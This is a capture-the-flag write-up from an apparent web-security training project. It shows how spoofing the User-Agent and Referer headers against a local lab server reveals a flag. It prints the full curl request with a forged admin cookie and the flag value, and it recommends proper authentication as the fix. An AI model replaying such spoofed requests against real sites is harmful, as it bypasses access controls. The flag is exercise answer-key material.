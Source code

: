 # SPOOF

### Breach description:

Spoofing the user-agent as ft_bornToSec and our origin to https://www.nsa.gov/ gets us the following flag on the copyright page:

```html
The flag is :
					f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

### Breach Explanation:

This one is a bit odd, essentially the comments in the copyright page give the trail, the implication is that some verifications are done based on these two headers, this would be a **Security Misconfiguration**

```powershell
curl --location 'http://192.168.64.4/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' \
--header 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8' \
--header 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
--header 'Cache-Control: max-age=0' \
--header 'Connection: keep-alive' \
--header 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \
--header 'Referer: https://www.nsa.gov/' \
--header 'Sec-GPC: 1' \
--header 'Upgrade-Insecure-Requests: 1' \
--header 'User-Agent: ft_bornToSec'
```

### Breach Fix:

Once again, relying on data that can be affected by anyone with postman, basic knowledge of their web browser’s developer tools, or curl, to grant access to certain pages is probably not a great idea. Using authentication would be a bare minimum.
